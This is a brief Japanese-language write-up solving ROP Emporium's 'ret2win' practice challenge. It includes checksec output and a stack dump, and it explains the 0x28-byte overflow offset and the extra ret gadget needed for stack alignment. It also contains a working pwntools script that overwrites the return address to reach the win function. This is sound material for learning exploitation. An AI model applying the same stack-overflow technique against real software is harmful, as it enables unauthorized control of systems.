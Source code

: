# ret2win(ROP Emporium 1)

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### Solution
ret2win function: 0x400756

read後のスタック:
```
00:0000│ rsi rsp 0x7fffffffdc20 ◂— 'aaaaaaa\n'
01:0008│-018     0x7fffffffdc28 ◂— 0
... ↓            2 skipped
04:0020│ rbp     0x7fffffffdc40 —▸ 0x7fffffffdc50 
05:0028│+008     0x7fffffffdc48 —▸ 0x4006d7 (main+64) 
```
0x28文字+'0x400756'

スタックアラインメント制約を回避するために，適当な`ret`に飛ばす

### Script
```python
from pwn import *

conn = process('./ret2win')

conn.sendafter('> ', b'a' * 0x28 + p64(0x4006e7) + p64(0x400756))
conn.interactive()
```